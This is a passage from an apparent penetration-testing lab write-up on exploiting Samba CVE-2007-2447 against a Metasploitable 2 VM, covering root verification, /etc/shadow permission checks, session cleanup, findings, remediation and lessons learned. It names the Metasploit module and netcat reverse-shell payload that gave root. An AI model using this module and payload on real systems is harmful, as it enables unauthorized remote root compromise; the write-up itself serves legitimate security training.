

**Result: Remote Code Execution successfully demonstrated.**

---

## 14. Root Access Verification

### Objective

Determine the identity and privileges associated with the newly established shell.

### Identity Verification

Inside the remote command shell:

```bash
id
```

### Observed Output

```text
uid=0(root) gid=0(root)
```

### Host Verification

```bash
hostname
```

Observed:

```text
metasploitable
```

### Analysis

The `id` result demonstrated that the remote command process operated with:

- UID 0: root
- GID 0: root

The `hostname` result confirmed that execution occurred on the Metasploitable 2 target.

### Comparison With Incident 17

| Attack Stage | Incident 17 — DistCC | Incident 18 — Samba |
|---|---|---|
| Initial vulnerability | CVE-2004-2687 | CVE-2007-2447 |
| Initial shell | `daemon` | `root` |
| Local privilege escalation | Required | Not required |
| Final identity | EUID 0 | UID 0, GID 0 |
| Main weakness | RCE + SUID configuration | Vulnerable username mapping |

In this incident, remote command execution immediately resulted in a root-level shell.

A separate local privilege escalation technique was unnecessary.

**Evidence — Root Access Verification**



**Result: Root-level Remote Code Execution confirmed.**

---

## 15. Protected File Permission Inspection

### Objective

Inspect filesystem permissions on a sensitive operating system file without displaying its contents.

### Initial Directory Check

The permissions of `/root` were inspected:

```bash
ls -ld /root
```

Observed:

```text
drwxr-xr-x 13 root root 4096 Oct 9 17:33 /root
```

The directory was owned by root but was not restricted exclusively to root.

Its permissions were `755`, allowing other users to list and traverse the directory.

Therefore, merely accessing this directory would not constitute proof of bypassing a root-only permission restriction.

### Protected File Metadata

A more relevant file was inspected:

```bash
ls -l /etc/shadow
```

Observed:

```text
-rw-r----- 1 root shadow 1207 May 13 2012 /etc/shadow
```

### Permission Interpretation

| Field | Meaning |
|---|---|
| `-` | Regular file |
| `rw-` | Owner may read and write |
| `r--` | Members of the owning group may read |
| `---` | Other users have no access |
| `root` | File owner |
| `shadow` | File group |

The file is normally protected because it contains sensitive password-related account information.

Only the metadata was inspected.

No password hashes or file contents were displayed or extracted.

### Evidence Limitation

The `ls -l` output documents the permissions of `/etc/shadow`.

It does not independently prove that the file's contents were read.

Root privileges were established by the earlier `id` command.

**Evidence — Protected File Permissions**



---

## 16. Session Cleanup

### Objective

Terminate the remote command-shell session and verify that Metasploit no longer displayed an active session from the assessment.

### Session Termination

The session was interrupted using:

```text
Ctrl+C
```

Metasploit requested confirmation:

```text
Abort session 1? [y/N]
```

The session was terminated by confirming the request.

### Verification

From the Metasploit console:

```text
sessions -l
```

The session listing was checked to verify that the command shell was no longer active.

### Scope of Cleanup

The demonstrated attack did not require creating a new user account, installing a persistence mechanism, or modifying application files.

The cleanup evidence documents termination of the Metasploit session.

It does not constitute a full forensic verification that no temporary processes or artifacts remain on the target.

**Evidence — Session Cleanup**



---

## 17. Confirmed Findings

### Finding 01 — Samba Username Map Script Remote Code Execution

| Property | Description |
|---|---|
| Reference | CVE-2007-2447 |
| Affected Service | Samba |
| Observed Version | Samba 3.0.20-Debian |
| Entry Point | SMB session setup |
| Port Used | TCP 139 |
| Authentication Required | No successful authentication required |
| Root Cause | Unsafe handling of username input by vulnerable username mapping |
| Result | Remote command execution |
| Privileges Obtained | UID 0, GID 0 |
| Severity | Critical in the demonstrated configuration |

**Description**

The Samba server was vulnerable to command execution through the `username map script` functionality.

A crafted username containing shell metacharacters was processed through the vulnerable configuration, resulting in execution of commands on the target.

**Evidence**

Successful Metasploit exploitation produced a reverse command shell, followed by:

```text
uid=0(root) gid=0(root)
```

**Impact**

An attacker who could reach the affected SMB service could execute operating system commands with the privileges of the vulnerable service process.

In the tested configuration, the exploit provided direct root access.

This represented complete compromise of the target's operating-system privilege boundary.

### Finding 02 — Anonymous RPC Account Enumeration

| Property | Description |
|---|---|
| Service | Samba RPC |
| Authentication | Empty username, no password supplied |
| Enumeration Command | `enumdomusers` |
| Information Exposed | Account names and RIDs |
| Observed Result | 35 account entries |
| Category | Information Disclosure |

**Description**

The target accepted an RPCClient connection without supplied credentials and returned account entries through the `enumdomusers` operation.

**Impact**

Remote clients could obtain information about local and service accounts, providing useful reconnaissance data.

The demonstrated exposure did not, by itself, provide passwords or authenticated access to those accounts.

---

## 18. Root Cause Analysis

The primary exploitation path depended on unsafe handling of user-controlled input within the Samba username-mapping process.

A username received through SMB session setup should be treated as authentication data.

In affected configurations, the `username map script` mechanism could allow shell metacharacters inside the username to influence command execution.

### Trust Boundary Failure

```text
Untrusted Network Input
          |
          v
SMB Username Field
          |
          v
Samba Username Mapping
          |
          | Unsafe Shell Interpretation
          v
Operating System Command
          |
          v
Execution with Service Privileges
```

The vulnerability crossed a critical trust boundary: data supplied by a remote unauthenticated client reached an operating system command-execution context.

In this laboratory, the resulting command execution occurred with root privileges.

---

## 19. Recommended Remediation

### 19.1 Update Vulnerable Samba Installations

Replace affected legacy Samba versions with currently supported releases.

Ensure security fixes addressing CVE-2007-2447 and related vulnerabilities are applied.

### 19.2 Eliminate Unsafe Username Mapping

Avoid unsafe `username map script` configurations.

Where username mapping is required, ensure external scripts cannot interpret attacker-controlled usernames as shell commands.

### 19.3 Apply Least Privilege

Limit the operating system privileges of services and supporting scripts where feasible.

A remotely reachable service should not execute unnecessary operations with root privileges.

### 19.4 Restrict SMB Network Access

Limit TCP ports 139 and 445 to explicitly authorized systems and network segments.

Do not expose administrative file-sharing services to untrusted networks.

### 19.5 Review Anonymous Enumeration

Assess whether unauthenticated RPC operations are necessary.

Restrict disclosure of account and service information where appropriate for the environment.

### 19.6 Maintain Secure Configuration Baselines

Regularly review Samba configuration, enabled services, permissions, and obsolete functionality.

Configuration weaknesses can remain exploitable even when the underlying network protocol is functioning as designed.

---

## 20. Lessons Learned

### Enumeration Before Exploitation

The assessment began with basic connectivity and service discovery.

The exact Samba release was identified through RPC before exploitation was attempted.

This demonstrates the importance of progressing from broad reconnaissance to more precise technical findings.

### RPC and SMB Are Related but Distinct

SMB provides mechanisms for file sharing and related service communication.

RPC allows clients to invoke operations exposed through remote interfaces.

During this exercise, RPC operations were accessed through Samba's SMB-related infrastructure.

Understanding the difference was essential to interpreting the enumeration results.

### Service Version Is Not Proof of Vulnerability

The identified version, Samba 3.0.20, matched the affected range of CVE-2007-2447.

However, exploitation also depended on the vulnerable configuration being present.

The successful reverse shell provided evidence that the vulnerability was exploitable on the target.

### Understanding an Exploit Is More Valuable Than Memorizing It

Before launching the Metasploit module, the exploit source was inspected manually.

The code revealed:

- How the username was constructed
- How shell metacharacters were introduced
- How the username was delivered through SMB session setup
- Why successful authentication was not required
- How the framework handled the reverse connection

This connected source-code behavior to the observed exploitation result.

### UID and RID Serve Different Purposes

The assessment exposed both Samba RIDs and Linux UIDs.

These identifiers belong to different identity models and must not be treated as interchangeable.

### Root Access Must Be Verified

The Metasploit success message established that a remote shell was opened.

The following command established the privilege level:

```bash
id
```

Observed:

```text
uid=0(root) gid=0(root)
```

The additional `hostname` command confirmed the execution context.

### Evidence Has Specific Limits

Listing the permissions of `/etc/shadow` does not demonstrate that its contents were read.

Likewise, closing a Metasploit session proves that the session was terminated, not that a complete forensic cleanup occurred.

Each security claim should be supported by evidence that actually establishes that claim.

---

## 21. Evidence Index

Twelve screenshots were collected during the controlled reproduction of the attack.

| # | Phase | Evidence |
|---|---|---|
| 01 | Connectivity | [Network Connectivity](screenshots/01-network-connectivity.png) |
| 02 | Reconnaissance | [Samba Service Discovery](screenshots/02-samba-discovery.png) |
| 03 | RPC Enumeration | [Server Information](screenshots/03-rpc-server-info.png) |
| 04 | RPC Enumeration | [User Enumeration](screenshots/04-rpc-user-enumeration.png) |
| 05 | Vulnerability Research | [SearchSploit and CVE](screenshots/05-vulnerability-research.png) |
| 06 | Static Analysis | [Exploit Source Code](screenshots/06-exploit-source.png) |
| 07 | Metasploit Research | [Module Discovery](screenshots/07-metasploit-module.png) |
| 08 | Exploit Preparation | [Metasploit Configuration](screenshots/08-metasploit-options.png) |
| 09 | Exploitation | [Reverse Command Shell](screenshots/09-reverse-shell.png) |
| 10 | Post-Exploitation | [Root Access Verification](screenshots/10-root-verification.png) |
| 11 | Impact Assessment | [Protected File Permissions](screenshots/11-protected-file-permissions.png) |
| 12 | Cleanup | [Session Cleanup](screenshots/12-session-cleanup.png) |

All screenshot paths are relative to this README:

```text
Incident-18-Samba-Username-Map-Script-RCE/
├── README.md
└── screenshots/
    ├── 01-network-connectivity.png
    ├── 02-samba-discovery.png
    ├── 03-rpc-server-info.png
    ├── 04-rpc-user-enumeration.png
    ├── 05-vulnerability-research.png
    ├── 06-exploit-source.png
    ├── 07-metasploit-module.png
    ├── 08-metasploit-options.png
    ├── 09-reverse-shell.png
    ├── 10-root-verification.png
    ├── 11-protected-file-permissions.png
    └── 12-session-cleanup.png
```

---

## 22. References

- [NIST NVD — CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)
- [Samba Security Advisory — CVE-2007-2447](https://www.samba.org/samba/security/CVE-2007-2447.html)
- [Exploit Database — EDB-ID 16320](https://www.exploit-db.com/exploits/16320)
- [Rapid7 Metasploit Framework](https://github.com/rapid7/metasploit-framework)
- [Samba Project](https://www.samba.org/)

---

## 23. Conclusion

This incident demonstrated a complete remote compromise of an intentionally vulnerable Linux server through Samba CVE-2007-2447.

The exercise began with network connectivity verification, followed by SMB service discovery on ports 139 and 445.

Anonymous RPC enumeration identified Samba 3.0.20-Debian and exposed account information without supplied credentials.

Vulnerability research identified the username map script command-execution flaw. Static analysis of the Ruby exploit clarified the attack mechanism before execution.

The Metasploit module `exploit/multi/samba/usermap_script` successfully established a reverse command shell using the `cmd/unix/reverse_netcat` payload.

Final verification confirmed:

```text
uid=0(root) gid=0(root)
hostname: metasploitable
```

**Final Result: SMB Reconnaissance → Anonymous RPC Enumeration → CVE-2007-2447 → Remote Command Execution → Root Access**

The exercise reinforced practical skills in network enumeration, SMB/RPC analysis, vulnerability research, exploit-source inspection, Metasploit configuration, Unix identity verification, evidence collection, and controlled session cleanup.

**Incident 18 — Completed**

*All activity was performed in a private, authorized cybersecurity laboratory against an intentionally vulnerable virtual machine.*
